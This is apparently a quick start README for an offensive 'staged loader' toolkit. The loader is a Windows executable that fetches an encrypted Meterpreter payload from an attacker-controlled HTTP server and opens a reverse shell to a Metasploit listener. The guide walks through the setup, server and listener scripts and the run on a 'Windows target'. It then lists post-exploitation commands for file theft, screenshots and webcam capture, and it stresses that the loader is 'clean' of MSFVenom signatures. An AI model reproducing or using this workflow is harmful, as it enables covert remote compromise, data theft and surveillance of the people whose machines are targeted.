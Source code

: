 # Quick Start Guide - Staged Loader

**Get up and running in 3 commands!**

---

## ⚡ Super Fast Setup

```bash
# 1. Run automated setup
./setup.sh

# 2. Start HTTP server (Terminal 1)
./start_server.sh

# 3. Start Metasploit listener (Terminal 2)
./start_listener.sh

# 4. Run staged_loader.exe on Windows target
```

**That's it!** You'll get a Meterpreter shell.

---

## 📋 Step-by-Step (First Time Users)

### 1️⃣ Setup (One Time)

```bash
cd /home/yenn/Desktop/beacons
./setup.sh
```

**Prompts:**
```
Enter your Kali IP (LHOST) [192.168.1.56]: <YOUR_IP>
Enter listener port (LPORT) [4444]: <YOUR_PORT>
Enter HTTP server port [8080]: <HTTP_PORT>
Continue with this configuration? (y/n): y
```

**Output:**
```
✅ Payload generated
✅ Payload encrypted
✅ Loader compiled
✅ Scripts created
```

---

### 2️⃣ Start Server

**Terminal 1:**
```bash
./start_server.sh
```

**Output:**
```
[*] Starting HTTP server on port 8080...
[*] Payload URL: http://192.168.1.56:8080/payload.enc
[+] Server is running. Press CTRL+C to stop.
```

**Leave this running!**

---

### 3️⃣ Start Listener

**Terminal 2:**
```bash
./start_listener.sh
```

**Output:**
```
[*] Starting Metasploit handler...
[*] Listening on: 192.168.1.56:4444
[*] Started reverse TCP handler on 192.168.1.56:4444
```

**Leave this running!**

---

### 4️⃣ Run on Windows

1. Copy `staged_loader.exe` to Windows machine
2. Double-click or run via command line
3. Wait 2-5 seconds

**In Metasploit console, you'll see:**
```
[*] Meterpreter session 1 opened (192.168.1.56:4444 -> 192.168.1.X:XXXXX)
```

---

### 5️⃣ Interact with Shell

**In Metasploit:**
```bash
# List sessions
sessions -l

# Connect to session
sessions -i 1

# You're now in Meterpreter!
meterpreter > sysinfo
meterpreter > getuid
meterpreter > pwd
meterpreter > shell     # Get cmd.exe shell
```

---

## 🔄 For Different Target (New IP/Port)

```bash
./setup.sh
# Enter new IP/Port
# Everything rebuilds automatically
```

---

## 🐛 Quick Troubleshooting

**No connection?**
```bash
# Check server is running
curl http://192.168.1.56:8080/payload.enc

# Check listener
# In Metasploit: jobs -l

# Check sessions
# In Metasploit: sessions -l
```

**Session dies?**
```bash
# Run loader again - it works!
# Sessions may take 5-10 seconds
```

---

## 📊 What You Get

| File | Size | Purpose |
|------|------|---------|
| `staged_loader.exe` | 17KB | Clean loader (NO MSFVenom) |
| `payload.enc` | 200KB | Encrypted Meterpreter |
| `start_server.sh` | - | HTTP server |
| `start_listener.sh` | - | Metasploit handler |

---

## ✅ Success Indicators

**HTTP Server:**
```
Serving HTTP on 0.0.0.0 port 8080
192.168.1.X - - [DATE] "GET /payload.enc HTTP/1.1" 200 -
```
☝️ Windows downloaded the payload!

**Metasploit:**
```
[*] Meterpreter session 1 opened
```
☝️ You got a shell!

**Meterpreter Prompt:**
```
meterpreter >
```
☝️ Interactive shell ready!

---

## 🎯 Common Commands

**In Meterpreter:**
```bash
sysinfo          # System information
getuid           # Current user
pwd              # Current directory
ls               # List files
cd C:\\Users     # Change directory
download file    # Download file
upload file      # Upload file
screenshot       # Take screenshot
webcam_snap      # Take photo
shell            # Get cmd.exe
```

**Session Management:**
```bash
sessions -l      # List sessions
sessions -i 1    # Interact with session 1
sessions -k 1    # Kill session 1
background       # Background session (CTRL+Z)
```

---

## 🚨 If Something Goes Wrong

**Reset everything:**
```bash
# Kill all
jobs -K          # In Metasploit
CTRL+C           # In HTTP server

# Restart
./setup.sh       # Regenerate everything
./start_server.sh
./start_listener.sh
```

---

**For detailed docs:** See `README.md`

**Generated:** $(date)
